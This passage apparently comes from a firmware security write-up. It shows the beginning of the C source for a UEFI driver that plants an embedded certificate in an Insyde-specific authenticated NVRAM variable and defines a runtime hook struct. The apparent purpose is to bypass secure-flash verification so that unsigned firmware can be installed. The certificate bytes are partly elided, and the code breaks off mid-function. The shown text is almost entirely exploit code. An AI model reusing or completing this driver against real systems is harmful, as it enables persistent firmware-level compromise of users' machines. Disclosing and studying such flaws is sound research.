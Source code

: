 This is the full source of our driver:
```cpp
#include <Uefi.h>
#include <Library/UefiDriverEntryPoint.h>
#include <Library/UefiBootServicesTableLib.h>
#include <Library/UefiRuntimeServicesTableLib.h>
#include <Protocol/Bds.h>

#pragma pack(push, 1)
typedef struct {
    UINT32 ImageSize;
    UINT64 ImageAddress;
    BOOLEAN SecureFlashTrigger;
    BOOLEAN ProcessingRequired;
} SECURE_FLASH_INFO;

typedef struct {
  UINT8 Byte48;
  UINT8 Byte8B;
  UINT8 Byte05;
  UINT32 RipOffset;
  UINT8 ByteC6;
  UINT8 Byte80;
  UINT32 RaxOffset;
  UINT8 Value;
} VARIABLE_RUNTIME_BDS_ENTRY_HOOK;
#pragma pack(pop)

#define WIN_CERT_TYPE_EFI_GUID 0x0EF1

STATIC UINT8 VariableBuffer[] = {
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // MonotonicCount
    0x00, 0x00, 0x00, 0x00, //AuthInfo.Hdr.dwLength
    0x00, 0x00, //AuthInfo.Hdr.wRevision
    0x00, 0x00, //AuthInfo.Hdr.wCertificateType
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // AuthInfo.CertType
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // AuthInfo.CertType
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // CertData
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // CertData
    // Certificate in EFI_CERTIFICATE_LIST format
    0xa1, 0x59, 0xc0, 0xa5, 0xe4, 0x94, 0xa7, 0x4a, 0x87, 0xb5, 0xab, 0x15,
    ...
    0xb4, 0xf5, 0x2d, 0x68, 0xe8
};
UINTN VariableSize = 48 + 857;

EFI_GUID gSecureFlashVariableGuid = { 0x382af2bb, 0xffff, 0xabcd, {0xaa, 0xee, 0xcc, 0xe0, 0x99, 0x33, 0x88, 0x77} };
EFI_GUID gInsydeSpecialVariableGuid = { 0xc107cfcf, 0xd0c6, 0x4590, {0x82, 0x27, 0xf9, 0xd7, 0xfb, 0x69, 0x44 ,0xb4} };

EFI_STATUS
EFIAPI
SetCertAsInsydeSpecialVariable (
  VOID
  )
{
  EFI_STATUS Status;
  UINT32 Attributes = EFI_VARIABLE_BOOTSERVICE_ACCESS | EFI_VARIABLE_RUNTIME_ACCESS |
                 EFI_VARIABLE_NON_VOLATILE | EFI_VARIABLE_AUTHENTICATED_WRITE_ACCESS;
  EFI_VARIABLE_AUTHENTICATION *CertData = (EFI_VARIABLE_AUTHENTICATION *)VariableBuffer;
  
  CertData->AuthInfo.Hdr.dwLength = VariableSize;
  CertData->AuthInfo.Hdr.wRevision = 0x0200;
```